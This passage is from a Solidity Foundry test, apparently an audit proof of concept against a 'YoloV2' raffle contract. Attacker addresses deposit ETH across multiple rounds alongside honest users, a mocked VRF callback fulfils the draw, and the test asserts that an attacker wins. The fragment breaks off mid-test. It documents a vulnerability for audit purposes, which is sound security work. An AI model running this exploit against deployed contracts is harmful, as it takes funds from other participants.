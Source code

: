 ```solidity

        vm.startPrank(tom);
        valuePerEntryVariable;
        vm.deal(tom, valuePerEntryVariable);
        yoloV2.deposit{value: valuePerEntryVariable}(1, _emptyDepositsCalldata());
        vm.stopPrank();

        vm.startPrank(attacker2);
        vm.deal(attacker2, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amounts);
        vm.stopPrank();

        vm.startPrank(john);
        vm.deal(john, valuePerEntryVariable);
        yoloV2.deposit{value: valuePerEntryVariable}(1, _emptyDepositsCalldata());
        vm.stopPrank();

        vm.startPrank(attacker3);
        vm.deal(attacker3, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amounts);
        vm.stopPrank();

        /// @notice simulate returning random word 
        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 2345782359082359082359082359239741234971239412349234892349234;

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yoloV2).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        uint40 maximumNumberOfParticipants;
        uint16 roundProtocolFeeBp;
        uint40 cutoffTime;
        address winner;
        IYoloV2.Deposit[] memory deposits;
        IYoloV2.RoundStatus status;
        uint40 drawnAt;
        uint40 numberOfParticipants;
        uint96 roundValuePerEntry;
        uint256 protocolFeeOwed;
        (
            status,
            maximumNumberOfParticipants, 
            roundProtocolFeeBp, 
            cutoffTime, 
            drawnAt, 
            numberOfParticipants, 
            winner, 
            roundValuePerEntry, 
            protocolFeeOwed, 
            deposits
        ) = yoloV2.getRound(1);

        assertTrue(winner == attacker || winner == attacker1 || winner == attacker2 || winner == attacker3);
        console2.log("Protocol fee owed: ", protocolFeeOwed);
        uint40 currentEntryIndexAlice = deposits[0].currentEntryIndex;
        uint40 currentEntryIndexAttacker = deposits[1].currentEntryIndex;
        uint40 currentEntryIndexBob = deposits[2].currentEntryIndex;
        uint40 currentEntryIndexAttacker1 = deposits[3].currentEntryIndex;
        uint40 currentEntryIndexTom = deposits[4].currentEntryIndex;
        uint40 currentEntryIndexAttacker2 = deposits[5].currentEntryIndex;
        uint40 currentEntryIndexJohn = deposits[6].currentEntryIndex;
```